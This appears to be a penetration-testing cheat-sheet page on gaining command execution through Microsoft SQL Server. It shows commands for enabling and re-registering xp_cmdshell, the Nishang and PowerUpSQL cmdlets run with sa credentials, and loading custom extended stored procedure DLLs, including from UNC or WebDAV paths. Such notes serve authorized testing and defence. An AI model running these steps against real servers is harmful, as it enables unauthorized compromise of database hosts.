 # 04. Command Execution

## xp_cmdshell
- Disabled by default since SQL Server 2005
- Executed with the privileges of SQL Server service account
- Synchronous
- `sysadmin` privileges are required

If uninstalled:
```
sp_addextendedproc 'xp_cmdshell','xplog70.dll'
```

If disabled:
```
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
```

Exploitation:
```
EXEC master..xp_cmdshell 'whoami'
```

Nishang:
```
Execute-Command-MSSQL -ComputerName instance -UserName sa -Password pw
```

PowerUpSQL:
```
Invoke-SQLOSCmd -Username sa -Password pw -Instance instance -Command whoami
```

## Custom Extended Stored Procedures

- DLL which acts as an extension to SQL server
- `sysadmin` privileges are required to register
- Executes with the privileges of the service account
- DLL can have any file extension
- Can also be loaded from UNC path or Webdav

Sample DLL Code:
> https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/xp_evil_template.cpp
> https://stackoverflow.com/questions/12749210/how-to-create-a-simple-dll-for-a-custom-sql-server-extended-stored-procedure

If `xp_calc.dll` has a function called `xp_calc`:

```
sp_addextendedproc 'xp_calc', 'C:\mydll\xp_calc.dll'
EXEC xp_calc
sp_dropextendedproc 'xp_calc'
```
